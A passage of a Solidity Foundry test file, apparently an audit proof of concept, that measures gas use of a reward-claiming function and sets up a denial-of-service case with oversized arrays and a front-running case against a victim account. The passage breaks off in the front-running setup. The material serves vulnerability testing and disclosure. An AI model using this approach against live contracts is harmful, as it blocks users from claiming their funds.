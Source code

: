 ```solidity
        // In a real test, we'd check USDC balance increased
    }
    
    function testMediumClaim() public {
        console.log("=== Testing medium claim with larger array ===");
        
        // Create an array with 50 tokenIds
        uint256[] memory mediumArray = new uint256[](50);
        for (uint256 i = 0; i < 50; i++) {
            mediumArray[i] = i % ASSET_COUNT;
        }
        
        // Measure gas usage
        vm.prank(victim);
        uint256 gasBefore = gasleft();
        shop.claimRewardsMultiple(address(fractions), mediumArray);
        uint256 gasUsed = gasBefore - gasleft();
        
        console.log("Gas used for 50 elements:", gasUsed);
        console.log("Gas per element:", gasUsed / 50);
    }
    
    function testLargeArrayDoS() public {
        console.log("=== Testing DoS attack with excessive array size ===");
        
        // Create an array with excessive tokenIds to trigger out-of-gas
        uint256 largeSize = 750;
        uint256[] memory largeArray = new uint256[](largeSize);
        for (uint256 i = 0; i < largeSize; i++) {
            largeArray[i] = i % ASSET_COUNT;
        }
        
        // Estimate gas based on medium test
        uint256 gasPerElement = 50000; // Approximate from medium test
        uint256 estimatedGas = gasPerElement * largeSize;
        console.log("Estimated gas required for", largeSize, "elements:", estimatedGas);
        console.log("Typical block gas limit: 30,000,000");
        
        if (estimatedGas > 30_000_000) {
            console.log("VULNERABILITY CONFIRMED: Array would exceed block gas limit");
        }
        
        // Attempt the attack (will likely run out of gas or hit test gas limit)
        vm.prank(attacker);
        
        // We don't actually execute this in the test as it would likely fail
        // but in a real attack, this would be attempted against the victim
        console.log("In a real attack, attacker would call claimRewardsMultiple with", largeSize, "elements");
        console.log("This would either exhaust block gas limit or cause an out-of-gas error");
    }
    
    function testFrontRunningAttack() public {
        console.log("=== Testing targeted front-running attack ===");
        
        // Victim's small, legitimate transaction
        uint256[] memory victimArray = new uint256[](5);
        for (uint256 i = 0; i < 5; i++) {
            victimArray[i] = i;
        }
        
        // Attacker's large transaction that would be front-run
        uint256[] memory attackerArray = new uint256[](500);
```